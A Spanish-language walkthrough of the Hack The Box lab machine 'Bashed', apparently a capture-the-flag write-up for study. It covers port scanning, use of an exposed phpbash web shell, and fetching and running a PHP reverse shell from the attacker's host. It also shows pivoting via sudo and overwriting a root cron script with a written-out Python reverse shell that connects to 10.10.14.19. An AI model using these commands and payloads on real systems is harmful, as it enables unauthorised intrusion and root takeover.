


Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.68
Completed SYN Stealth Scan at 16:29, 18.47s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.30s latency).
Scanned at 2024-06-05 16:28:57 -03 for 18s
Not shown: 64212 closed tcp ports (reset), 1322 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.27s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
El sitio web luce así:

Vamos a utilizar gobuster para encontrar directorios ocultos:
Navegamos cada uno y dentro de /dev tenemos phpbash.php, que nos ofrece una web bash desde la cual podemos ejecutar comandos:
Desde aquí ya podemos ver la primer flag:
De todas formas, para trabajar mas cómodos, vamos a entablar una Reverse Shell. Para eso, vamos a usar el siguiente recurso de PentestMonkey. Lo descargamos a nuestra PC:
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Y lo editamos para especificar nuestra dirección IP y el puerto en el cual vamos a quedar a la escucha (en nuestro caso, el 443):
Levantamos un servidor web con python en nuestro equipo y ahora, desde la consola que tenemos en bash, nos dirigimos al directorio tmp (donde tenemos permisos), y lo descargamos:
wget http//10.10.14.19/php-reverse-shell.php
Nos quedamos a la escucha con netcat, y ejecutamos el archivo con php php-reverse-shell.php. Obtenemos la Reverse Shell:

Escalación de privilegios
Si ejecutamos sudo -l, vemos que el usuario www-data puede ejecutar cualquier comando como el usuario scriptmanager sin proporcionar contraseña, por lo tanto, hacemos un pivoting ejecutando:
sudo -i scriptmanager bash
/bin/bash -i
Listamos los directorios del usuario scriptmanager y vemos scripts. Si nos metemos, hay dos archivos (test.txt y test.py):
El script test.py simplemente abre el fichero test.txt y escribe "testing 123!", por lo tanto, podemos intuir que esta es una tarea cron que se ejecuta a intervalos regulares de tiempo por el usuario root.
Ya que tenemos permisos de edición, vamos a utilizar nuevamente el recurso de Pentest Monkey para entablar una Reverse Shell con python. Tengo problemas para editar directamente desde la shell, por lo que genero un archivo test.py en mi PC atacante con el siguiente contenido:
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket
s.connect(("10.10.14.19",1234));os.du
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
En la PC víctima, modifico el nombre del archivo original por test_BKP.py y me traigo el de mi PC local:
mv test.py test_BKP.py
wget http://10.10.14.19/test.py
Me pongo a la escucha con netcat en el puerto 1234 y después de unos segundos (cuando el cronjob corre), obtengo la sesión como root:
Desde aquí, obtengo la segunda flag: